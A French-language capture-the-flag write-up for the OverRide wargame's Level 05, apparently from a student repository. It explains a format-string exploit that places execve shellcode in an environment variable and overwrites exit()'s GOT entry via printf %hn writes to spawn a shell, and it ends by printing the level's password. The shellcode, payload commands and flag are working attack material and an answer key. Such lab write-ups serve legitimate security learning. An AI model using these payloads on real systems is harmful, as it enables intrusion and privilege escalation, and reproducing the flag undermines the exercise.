

# Level 05

### Protections



### Analyse

* Le programme fait un `fgets()` de 100 caracteres
* Il boucle sur notre entree et converti les majuscules en minuscules
* Il fait un `printf()` de notre buffer puis `exit(0)`
  * Cela empeche l'exploitation d'une modification du saved-eip.

On peut en revanche tenter de modifier la **GOT** (Global Offset Table) afin de "remplacer" `exit()` par un shellcode.

### Exploitation

En essayant de passer le shellcode dans le buffer avant la boucle while on s'apercoit que notre shellcode est bien present dans la stack : 

```
(gdb) x/21x $esp+0x28
0xffffd5a8:     0x6a    0x0b    0x58    0x99    0x52    0x68    0x2f    0x2f
0xffffd5b0:     0x73    0x68    0x68    0x2f    0x62    0x69    0x6e    0x89
0xffffd5b8:     0xe3    0x31    0xc9    0xcd    0x80
```

Mais la transformation des char dans la boucle modifie notre shellcode est donc devient inutilisable en l'etat actuel :

```
(gdb) x/21x $esp+0x28
0xffffd5a8:     0x6a    0x0b    0x78    0x99    0x72    0x68    0x2f    0x2f
0xffffd5b0:     0x73    0x68    0x68    0x2f    0x62    0x69    0x6e    0x89
0xffffd5b8:     0xe3    0x31    0xc9    0xcd    0x80
```

*Pour changer, nous allons faire passer notre Shellcode par les variables d'environnement.*

Notre shellcode est le suivant: `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

On commence par le mettre en place dans l'env:

`export SHELLCODE=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')`

*On y a ajoute une belle marge de 1024 instructions NOP en vue des differences de memoires entre GDB et Bash.*

Ensuite, on localise l'adresse GOT d'`exit()`:

```
(gdb) disas main
.......... ......    ....   ......... .........
0x08048513 <+207>:   call   0x8048370 <exit@plt>
.......... ......    ....   ......... ..........
(gdb) x/i 0x8048370
0x8048370 <exit@plt>:        jmp    *0x80497e0
```

L'adresse que l'on ecrasera sera alors **0x80497e0**.

Il nous faut ensuite localiser notre variable d'environement:

```
(gdb) info variable environ
All variables matching regular expression "environ":
Non-debugging symbols:
0xf7fd0e04  __environ
0xf7fd0e04  _environ
0xf7fd0e04  environ

(gdb) x/x 0xf7fd0e04
0xf7fd0e04 <environ>:   0xffffd29c
(gdb) x/x 0xffffd29c
0xffffd29c:     0xffffd3fa
(gdb) x/s 0xffffd3fa
0xffffd3fa:      "LC_PAPER=fr_FR.UTF-8"
(gdb) x/5s 0xffffd3fa
0xffffd3fa:      "LC_PAPER=fr_FR.UTF-8"
0xffffd40f:      "LC_ADDRESS=fr_FR.UTF-8"
0xffffd426:      "LC_MONETARY=fr_FR.UTF-8"
0xffffd43e:      "SHELLCODE=\220\220.....
.........................................
```

On recupere **0xffffd43e**+10 (pour eviter "SHELLCODE="), et on y ajoute 512 afin de se servir de la marge etablie precedement -> **0xffffd63e**

On recupere ensuite l'offset de `printf()` pour atteindre notre buffer.

```
level05@OverRide:~$ (python -c 'print "aaaa" + "%p"*10') | ./level05 
aaaa0x640xf7fcfac00xf7ec3af90xffffd5ef0xffffd5ee(nil)0xffffffff0xffffd6740xf7fdb0000x61616161
```

**Offset:** 10

*On peut enfin finaliser notre injection.*

On donc utiliser l'argument `%n` de `printf()` pour ecraser l'adresse de la **GOT**. *(plus d'explications dans notre repository de Rainfall)*

On ecrit d'abord la partie basse car la somme de la partie haute est plus grande:

```
d63e: 54846 - 8 = 54838
ffff: 65535 - 54838 - 8 = 10689
```

`(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54838d" + "%10$hn" + "%10689d" + "%11$hn"'; cat) | ./level05`

* "\xe0\x97\x04\x08" et "\xe2\x97\x04\x08" sont les parties haute et basse de l'entree GOT d'`exit()`.
* "%54838d" et "%10689d" permettent d'augmenter le compteur de `printf()`.
* "%10$hn" et "%11hn" visent les adresses citees au dessus et ecrivent le compteur actuel de `printf()` dans 2 bytes.

**h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq**
